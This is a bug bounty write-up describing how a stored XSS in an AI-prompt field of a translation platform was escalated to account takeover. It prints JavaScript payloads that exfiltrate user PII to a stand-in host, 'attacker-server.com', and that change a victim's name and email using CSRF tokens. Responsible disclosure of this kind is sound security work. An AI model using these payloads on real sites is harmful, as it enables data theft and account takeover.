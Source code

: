 # How We Turned a Medium XSS into a High Bounty by Bypassing HttpOnly Cookie

#### **﷽**

During a recent security assessment on a private bug bounty program with my friends @0d\_sami and @karemelsaqary , We discovered a Stored Cross-Site Scripting (XSS) vulnerability that was initially triaged as medium severity. However, by uncovering a way to bypass HttpOnly cookies, I was able to escalate its impact, resulting in a high-severity classification and a 3x increase in the bounty. Let’s dive into the details of this finding and how I achieved this escalation.

***

## **The Initial Discovery**

The target application was a common platform used for website translations, featuring team management, project management, and an AI-powered section. While testing for privilege escalation and injection attacks, I stumbled upon an interesting input field in the AI prompts section. Specifically, there was a "select bar" for choosing prompt types, but at the end of the list, there was an option to create a custom prompt type. This immediately caught my attention as a potential vector for XSS.

I tested the input field with standard XSS payloads and successfully triggered a stored XSS vulnerability. However, there were two significant limitations:

1. **Character Limit**: The input field was restricted to 255 characters, which made crafting a payload challenging.
2. **HttpOnly Cookies**: The session cookies were protected by the HttpOnly flag, preventing JavaScript from accessing them.

Despite these limitations, I reported the vulnerability, expecting it to be classified as medium severity due to the restricted impact. The triage team confirmed this assessment, stating that the HttpOnly flag mitigated the risk of cookie theft, leaving only the potential for script execution.

<figure><img src="../.gitbook/assets/image (304).png" alt=""><figcaption></figcaption></figure>

***

## **Escalating the Impact**

While the initial finding was valid, I wasn’t satisfied with the medium severity classification. I began exploring ways to increase the impact of the vulnerability. Here’s how I did it:

### **1. Expanding the Attack Scope**

I discovered that projects could be made public, significantly widening the attack surface. If an attacker could lure users to join their project and view the AI prompts, the XSS payload would trigger for all those users. While this increased the potential impact, it still wasn’t enough to convince the security team to classify the vulnerability as high severity.

<figure><img src="../.gitbook/assets/image (302).png" alt=""><figcaption></figcaption></figure>

### **2. Leaking Sensitive User Data**

Next, I focused on finding ways to exfiltrate sensitive data. During my testing, I identified an endpoint (`/backend/settings/change_account`) that leaked all user PII (Personally Identifiable Information) if an incorrect request was sent Like Requesting it without providing the `X-CSRF-TOKEN:` header or without the required parameters and it was very very strange behavior. The challenge was crafting a payload within the 255-character limit to exploit this.

After some experimentation and assistance from AI to optimize the payload, I came up with the following:

{% code overflow="wrap" %}
```javascript
fetch('/backend/settings/change_account').then(r => r.json()).then(d => location = 'https://attacker-server.com?data=' + encodeURIComponent(JSON.stringify(d))).catch(console.error);
```
{% endcode %}

This payload forced the victim’s browser to make a request to the vulnerable endpoint, leaking all user data and sending it to my Burp Collaborator server.

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **3. Bypassing HttpOnly for CSRF Tokens**

While the session cookies were protected by the HttpOnly flag, I noticed that the CSRF token was stored in a non-HttpOnly cookie. This token was also included in the headers of requests to sensitive endpoints, such as the one used to change user passwords. By leveraging the XSS vulnerability, I could extract the CSRF token and use it to perform actions on behalf of the victim.

Here’s the payload I used to change the victim’s profile name:

{% code overflow="wrap" %}
```javascript
<script>fetch('/backend/settings/change_account',{method:'POST',headers:{'X-Csrf-Token':'fkel9z9je2','Content-Type':'application/x-www-form-urlencoded'},body:'step=real_name&real_name=hacked+0x88'}).then(r=>r.json()).then(console.log)</script>
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (307).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (301).png" alt=""><figcaption></figcaption></figure>

### **4. Achieving Account Takeover**

To escalate the attack further, I aimed to change the victim’s email address, which would allow for a full account takeover. However, the request to change the email required an additional parameter (`_token`) that wasn’t stored in any cookie. After some investigation, I found that this token was leaked in the HTML content of the victim’s profile page. By making a request to the profile endpoint and exfiltrating the HTML, I was able to extract the `_token` and use it in another XSS payload to change the victim’s email:

{% code overflow="wrap" %}
```javascript
<script>fetch('/api/front/user/change-email',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:'new_email=t@t.co&_token=tokeforvictim'}).then(r=>r.json()).then(console.log)</script>
```
{% endcode %}

***

## **Additional Exploitation Scenarios**

Beyond account takeover, I demonstrated other severe impacts that could result from the XSS vulnerability, including:

1. **Ad Fraud**: Injecting malicious advertisements into the page.
2. **SEO Manipulation**: Injecting backlinks to manipulate search engine rankings.
3. **Cryptojacking**: Injecting scripts to mine cryptocurrency without the user’s consent.

<figure><img src="../.gitbook/assets/image (303).png" alt=""><figcaption></figcaption></figure>

The security team ultimately agreed with my assessment, reclassifying the vulnerability as high severity and awarding a significantly higher bounty. This finding serves as a reminder that persistence and creativity can turn seemingly minor vulnerabilities into critical security issues.

<figure><img src="../.gitbook/assets/image (305).png" alt=""><figcaption></figcaption></figure>

Stay curious, and happy hunting!

<figure><img src="../.gitbook/assets/image (306).png" alt=""><figcaption></figcaption></figure>

**سُبْحَانَكَ اللَّهُمَّ وَبِحَمْدِكَ ، أَشْهَدُ أَنْ لا إِلَهَ إِلا أَنْتَ ، أَسْتَغْفِرُكَ وَأَتُوبُ إِلَيْكَ**
